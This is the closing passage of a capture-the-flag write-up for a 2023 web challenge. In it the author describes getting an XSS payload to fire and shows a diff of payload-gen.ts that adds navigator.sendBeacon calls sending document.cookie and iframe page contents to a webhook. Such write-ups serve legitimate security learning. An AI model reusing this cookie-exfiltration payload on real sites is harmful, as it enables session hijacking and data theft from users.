 ## write flag where

> 20 minutes remain.

Now that we have all the pieces, all that's left are to put them together! (And to also fix all the bugs in my payload such as missing `\\`s, whoops). 

After repeating the above deployment sites for the third time on the actual challenge instance, my webhook _finally_ started receiving payloads such as
![604e199796658c961c615282f4130f6a.png](../../resources/598c8ef862e04b5988f592b59227e2b6.png)

There's just one problem left.

![76453036f5b684d9868bc536c5afaa98.png](../../resources/3b2a5519b22248508395679aefccbb7f.png)

With just ten minutes to spare, I realized that the flag was _probably_ in `document.cookie` and submitted an updated payload with a separate UUID:

```diff
--- payload-gen.ts
+++ payload-gen.ts
@@ -1,4 +1,4 @@
-// payload-gen.ts version 1 (spoiler alert: this has bugs!)
+// payload-gen.ts version 3
 import { Serializer } from "https://deno.land/x/superserial/mod.ts";
 import Post from './Post.ts';
 import Log from './Log.ts';
@@ -14,6 +14,8 @@
     let ROOT = "https://vegsoda-web.2023.ctfcompetition.com/";
     let load = (i, s) => { i.src = s; return new Promise(r => i.onload = () => { i.onload = null; r(i.contentWindow.document.body.innerHTML) }) };
     let yoink = (s) => navigator.sendBeacon("[webhook]?q=" + encodeURIComponent(JSON.stringify(s)));
+    yoink("payload deployed!");
+    yoink(document.cookie);
     (async () => {  
         let i = document.createElement("iframe");
         document.body.appendChild(i);
```
<center>